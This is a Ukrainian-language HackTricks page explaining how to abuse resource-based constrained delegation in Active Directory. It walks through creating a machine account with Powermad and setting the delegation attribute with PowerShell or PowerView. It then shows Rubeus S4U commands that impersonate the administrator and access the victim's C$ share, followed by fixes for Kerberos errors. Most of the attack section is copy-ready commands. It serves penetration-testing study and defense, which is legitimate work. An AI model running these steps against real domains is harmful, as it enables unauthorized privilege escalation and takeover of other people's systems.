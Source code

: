 # Ресурсна обмежена делегація

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## Основи ресурсної обмеженої делегації

Це схоже на базову [Обмежену делегацію](constrained-delegation.md), але **замість** надання дозволів **об'єкту для втілення будь-якого користувача проти служби**. Ресурсна обмежена делегація **встановлює в об'єкті, хто може втілювати будь-якого користувача проти нього**.

У цьому випадку обмежений об'єкт матиме атрибут під назвою _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ з ім'ям користувача, який може втілювати будь-якого іншого користувача проти нього.

Ще одна важлива відмінність цієї Обмеженої делегації від інших делегацій полягає в тому, що будь-який користувач з **правами запису над обліковим записом машини** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/тощо_) може встановити _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (у інших формах делегації вам потрібні привілеї адміністратора домену).

### Нові концепції

У випадку Обмеженої делегації було сказано, що прапорець **`TrustedToAuthForDelegation`** всередині значення _userAccountControl_ користувача потрібен для виконання **S4U2Self**. Але це не зовсім правда.\
Насправді, навіть без цього значення ви можете виконати **S4U2Self** проти будь-якого користувача, якщо ви є **службою** (маєте SPN), але якщо у вас **є `TrustedToAuthForDelegation`**, повернений TGS буде **Forwardable**, і якщо у вас **немає** цього прапорця, повернений TGS **не буде** **Forwardable**.

Однак, якщо **TGS**, використаний в **S4U2Proxy**, **НЕ є Forwardable**, спроба зловживання **базовою Обмеженою делегацією** **не працюватиме**. Але якщо ви намагаєтеся використати **ресурсно-обмежену делегацію**, це працюватиме (це не вразливість, це, здається, функція).

### Структура атаки

> Якщо у вас є **еквівалентні права запису** над обліковим записом **Комп'ютера**, ви можете отримати **привілегований доступ** до цієї машини.

Припустимо, що зловмисник вже має **еквівалентні права запису над обліковим записом жертви**.

1. Зловмисник **компрометує** обліковий запис, який має **SPN**, або **створює один** ("Служба A"). Зверніть увагу, що **будь-який** _Адміністратор користувач_ без будь-яких інших спеціальних привілеїв може **створити** до 10 **об'єктів Комп'ютера (**_**MachineAccountQuota**_**)** і встановити їм SPN. Таким чином, зловмисник може просто створити об'єкт Комп'ютера та встановити SPN.
2. Зловмисник **зловживлює своїми правами ЗАПИСУ** над обліковим записом жертви (СлужбаB), щоб налаштувати **ресурсно-обмежену делегацію для дозволу СлужбіA втілювати будь-якого користувача** проти цієї облікової записи жертви (СлужбаB).
3. Зловмисник використовує Rubeus для виконання **повної атаки S4U** (S4U2Self та S4U2Proxy) від Служби A до Служби B для користувача **з привілейованим доступом до Служби B**.
1. S4U2Self (від облікового запису, який компрометований/створений): Запитати **TGS Адміністратора для мене** (Не Forwardable).
2. S4U2Proxy: Використовуйте **не Forwardable TGS** з попереднього кроку, щоб запитати **TGS** від **Адміністратора** до **жертви хоста**.
3. Навіть якщо ви використовуєте не Forwardable TGS, оскільки ви експлуатуєте ресурсно-обмежену делегацію, це працюватиме.
4. Зловмисник може **передати квиток** та **втілити** користувача, щоб отримати **доступ до облікового запису жертви B**.

Щоб перевірити _**MachineAccountQuota**_ домену, ви можете використовувати:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Атака

### Створення об'єкта комп'ютера

Ви можете створити об'єкт комп'ютера всередині домену, використовуючи [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Налаштування обмеження делегування на основі ресурсів

**Використання модуля PowerShell для дії в активному каталозі**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Використання powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Виконання повного атаки S4U

Спочатку ми створили новий об'єкт комп'ютера з паролем `123456`, тому нам потрібен хеш цього пароля:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Це виведе хеші RC4 та AES для цього облікового запису.\
Зараз можна виконати атаку:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Ви можете згенерувати більше квитків, просто запитавши один раз, використовуючи параметр `/altservice` у Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Зверніть увагу, що у користувачів є атрибут, який називається "**Не може бути делегованим**". Якщо у користувача цей атрибут встановлено на True, ви не зможете видаавати його. Це властивість можна побачити всередині bloodhound.
{% endhint %}

### Отримання доступу

Остання команда командного рядка виконає **повний атаку S4U та впровадить TGS** від Адміністратора до цільового хоста в **пам'яті**.\
У цьому прикладі було запитано TGS для служби **CIFS** від Адміністратора, тому ви зможете отримати доступ до **C$**:
```bash
ls \\victim.domain.local\C$
```
### Зловживання різними сервісними квитками

Дізнайтеся про [**доступні сервісні квитки тут**](silver-ticket.md#available-services).

## Помилки Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`**: Це означає, що Kerberos налаштований не використовувати DES або RC4, а ви надаєте лише хеш RC4. Постачте Rubeus принаймні хеш AES256 (або просто постачте йому хеші rc4, aes128 та aes256). Приклад: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Це означає, що час поточного комп'ютера відрізняється від часу DC, і Kerberos не працює належним чином.
* **`preauth_failed`**: Це означає, що задане ім'я користувача + хеші не працюють для входу. Можливо, ви забули поставити "$" всередині імені користувача при генерації хешів (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Це може означати:
  * Користувач, якого ви намагаєтеся імітувати, не може отримати доступ до потрібного сервісу (через те, що ви не можете його імітувати або через те, що у нього недостатньо привілеїв)
  * Запитаний сервіс не існує (якщо ви просите квиток для winrm, але winrm не працює)
  * Створений fakecomputer втратив привілеї на вразливому сервері, і вам потрібно повернути їх.

## Посилання

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)
